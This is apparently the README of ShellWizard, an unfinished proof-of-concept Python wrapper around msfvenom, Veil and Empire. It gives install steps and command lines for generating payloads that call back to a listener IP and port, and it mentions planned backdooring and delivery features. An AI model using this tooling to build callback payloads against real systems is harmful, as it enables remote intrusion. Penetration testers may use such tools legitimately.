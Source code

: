 
<h1 align="center">
  <br>
ShellWizard
  <br>
</h1>

<h4 align="center">Python wrapper for the payload creation.</h4>
<h6 align="center">This tool is still in development and has plans to include significantly more funcionality. Is currently just a PoC.</h4>
<h6 align="center">Some of the future functionality includes better staging (wix building and backdooring) and delivery.</h4>

<p align="center">
  <a href="#install">Install</a> •
  <a href="#examples">Examples</a> •
  <a href="#related">Related</a> •
  <a href="#license">License</a>
</p>

## Install
```python
git clone https://github.com/byinarie/ShellWizard.git
pip3 install -r requirements.txt 
```

## Examples
* Help
```bash
python3 ShellWizard.py --help
python3 ShellWizard.py venom --help
python3 ShellWizard.py empire --help
python3 ShellWizard.py veil --help
```

* Generate a veil payload
```python
python3 ShellWizard.py veil -lhost LISTENER-IP -lport -LISTENER-PORT -veil-options ADDTIONAL-OPTIONS
```
* Generate a venom payload
```python
python3 ShellWizard.py venom -lhost LISTENER-IP -lport -LISTENER-PORT -msf-options ADDTIONAL-OPTIONS
```

* Generate an Empire Payload (needs updated to include lhost, listener creation/etc)
* Currently not working.
```python
python3 ShellWizard.py veil --empire-host EMPIRE-API --empire-user USER --empire-pass PASSWORD --empire-options ADDTIONAL-ARGUMENTS
```

## Related
* todo

## License

Creative Commons Zero v1.0 Universal

---

